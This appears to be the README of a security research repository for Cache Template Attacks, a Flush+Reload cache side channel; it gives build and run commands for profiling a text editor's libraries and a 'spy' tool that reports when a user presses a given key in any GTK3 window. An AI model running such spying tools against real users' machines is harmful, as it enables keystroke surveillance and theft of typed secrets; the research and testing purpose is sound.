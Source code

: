 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://eprint.iacr.org/2013/448.pdf)" (2014).

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. Based on the histogram it suggests a suitable threshold value (this value is also returned by the program).

**Note:** In most programs I defined a constant MIN_CACHE_MISS_CYCLES. Change it based on your threshold, if necessary.

## Getting started: Keypresses (with libxdotool)
It is helpful to start with well observable events like key strokes and an application which is known to process such events (for instance an editor). You find the profiling tools in the profiling folder.

In this example we perform some steps by hand to illustrate how Cache Template Attacks work.
Therefore, we will first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep gdk-3
7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step. Using the libxdo library. Be sure to install it before trying this.

**Note:** There is a second version which runs without libxdo, but then you have to issue the events by some other means.

During the profiling we will simulate a huge number of key presses. Therefore, your test system will probably not be usable for a few minutes to hours. Switch to an already opened gedit window before ./spy is started.
On Linux, run the following lines:
```
cd profiling/linux_low_frequency_example
make
echo "switch to gedit window"
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```
On Windows with MSYS/MinGW, run the following lines:
```
cd profiling/windows_low_frequency_example
mingw32-make
echo "switch to notepad window"
sleep 5; ./spy 200 C:\Windows\System32\notepad.exe > notepad.csv
```

The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

**Note:** The spy.sh script does this part automatically, it profiles all shared libraries and binary files loaded by the program under attack (for instance gedit).

You are generally looking for events which have single high peaks, like the following:
```
file,  addr,   0,   1,   2,   3,   4,   5,   6,   7,   8,   9,   a,   b,   c,   d,   e,   f,   g,   h,   i,   j,   k,   l,   m,   n,   o,   p,   q,   r,   s,   t,   u,   v,   w,   x,   y,   z
/usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2, 0x85ec0,=   3/ 110,=   0/ 112,=   0/ 117,=   0/ 122,=   0/ 120,=   1/ 123,=   0/ 125,=   0/ 123,=   1/ 124,=   0/ 124,=   1/ 123,=   0/ 120,=   0/ 122,=   0/ 121,=   0/ 122,=   0/ 123,=   0/ 122,=   0/ 123,=   1/ 123,=   1/ 121,=   0/ 118,=   0/ 123,=   0/ 122,= 126/ 122,=   0/ 122,=   2/ 117,=   0/ 117,=   0/ 119,=   0/ 121,=   0/ 123,=   3/ 118,=  14/ 122,=   0/ 120,=   0/ 122,=   0/ 117,=   4/ 116
```
This one had 126 cache hits during 122 key presses of the key N. And almost none when pressing other keys.

To verify our results we will now use the generic exploitation spy tool:
```
cd exploitation/generic
make
./spy /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 0x85ec0
```
Now this tool prints a message exactly when a user presses N (in any GTK3 window).
This spy tool can also be used on Windows just like that.

## Getting started: Keypresses (without libxdotool)
Without libxdotool we can use the generic low frequency profiling tool.
This tool requires you to generate the events somehow. Depending on what you want to profile this can be another program simulating key strokes, a jammed key, a program which constantly triggers the event to exploit (an encryption...).
In our case we will just jam a key and create a Cache Template showing which addresses react on key strokes. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. In the previous example we used libxdotool for this purpose.

On Windows or OSX you might not have procfs to retrieve the shared library mappings.
However, on Windows there is vmmap which gives you the same information and on OSX you can use at least ldd and scan the binary itself. Therefore, we execute the generic example tool similar as before:
```
cd profiling/generic_low_frequency_example
make
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```

```
cd profiling/generic_low_frequency_example
make
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```

